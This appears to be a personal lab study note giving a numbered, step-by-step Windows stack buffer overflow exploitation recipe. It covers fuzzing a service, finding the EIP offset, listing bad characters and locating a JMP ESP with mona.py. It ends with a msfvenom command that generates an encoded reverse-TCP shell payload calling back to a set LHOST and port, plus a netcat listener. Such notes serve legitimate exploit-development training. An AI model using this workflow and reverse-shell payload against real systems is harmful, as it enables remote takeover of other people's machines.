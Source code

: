 ## Windows Buffer Overflow

1) First we identify the IP, service and the port it is running and make edits in the fuzzer script

**GO TO OPTIONS > APPEARANCE > Change > Font to 10-12 in IMMUNITY * View - CPU doubleclick
2) We start fuzzing with Ollydbg/Immunity AS ADMINISTRATOR running while it is attached to the service**

3) Depending on the no. of bytes which crash the service we see the EIP register pointing to AAAA

4) Next we create a pattern with `pattern_create.rb` of 2700 bytes and fuzz with it as our buffer.

`Usage : pattern_create.rb -l 2700`

5) Load the whole value into the buffer instead of the A's and re-run the fuzzer to crash the service. Re-attch and restart service first

6) Now we have a unique value on the EIP register let's use patter_offset to look for the location to understand EIP overwrite

Usage: `pattern_offset -q Value we found on EIP`

7) Output will be say 2606 that mean we need to overwrite the 4 characters after 2606 to overwrite EIP

8) Let's do this by pushing 2606 A's + 4 B's and 500 C's

9) We see that the EIP register is overwritten by 4 B's that is 42424242 in hex.

10) Now we must see if there is space for our shellcode which is normally 350-400 bytes in space

11) When we send 500 bytes as C's we see in the bottom right window we can double click and it shows relative to ESP the count and we can turn that value ex. 1ac to decimal which is 428 bytes.

12) Now we must find bad characters not allowed in payload. (Note `\x00` is always a badchar so its removed already )

```
badchars = (
"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"
"\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30"
"\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"
"\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"
"\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90"
"\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0"
"\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
"\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"
"\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"
"\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff" )
```

13) Let's fire it up in the A * 2606 + B * 4 + badchars in the buffer and see where the debugger starts truncating values that is a badchar for us.

Right click ESP and "Follow in dump" REMEMBER TO VIEW HEX DUMP!!!!!!!!!!!

14) We find \x0a as a badchar we remove and re-fuzz

15) Everything else looks good so remember to remove \x00 is always a badchar from payload

16) Now we have \x00,\x0a,\x0d as badhcharacters. (\x0d is FOUND BY SEEING THE GAP in values 0C and then 0E even though everything else seems good. Always keep in mind!

17) Now we must redirect the execution flow aka find a reliable address to get into our EIP so it will have this instruction JMP ESP and it will point to our shellcode

18 ) For hunting such an address we look into mona.py (Remember to restart the service and run it in Immunity debugger to find the right place)

19) we enter !mona modules in the white bar below to see which address will have False under DEP and ASLR as we need to avoid those

20)  Once we have our candidate we click the 'm' memory mapping and find the same and must have R and E both

21) We then go to Executables by clicking 'e' and double clicking the Vulnerable.dll and we see the code for execution of this dll.

22) To find this JMP ESP we can use nasm.rb inbuilt to generate the opcode so we can use mona to find it in our execution page for us.
```
Usage : nasm_shell.rb
nasm> jmp esp

00000000  FFE4              jmp esp
```
23) We now use `!mona find -s "\xff\xe4" -m vuln.dll`

24) We get a bunch of JMP ESP addresses we pick one with no badcharacters!!!!

25) LEt's write that in our 'B' space but remember they must be written the other way around so here it is
0x5f4a358f and will be written as \x8f\x35\x4a\x5f in place of BBBB

26) Update our script and try to send and see if ESP is what we want it to be it redirects the flow to the CCCCCCCC....
FOR THIS WE PLACE A BREAKPOINT ON THE ADDRESS TO STOP THE PROGRAM AND NOTICE THE EIP WE ENTERED AND THEN CONTINUE IT
Right click on any address and click Go to > Expression and type in the address and boom Toggle the Breakpoint there.

Can pop calc first to see if needed else go for ROOT!

27) Then we see that our the crash should indicate the redirection to the CCCC's

28) Time to generate our payload with badchars specified and encode it
## NOTE : REMEMBER THE FORMAT of how to put badcharacters below no commas !!!!
`msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.52 LPORT=443 -f py -b "\x00\x0a\x0d" -e x86/shikata_ga_nai `

29) Copy this shellcode after the B's and we must add the no op sleds just a few like 10 and then the shellcode so metasploit can decode this shellcode

30) Setup a netcat listener/multi handler and you're GOLDEN!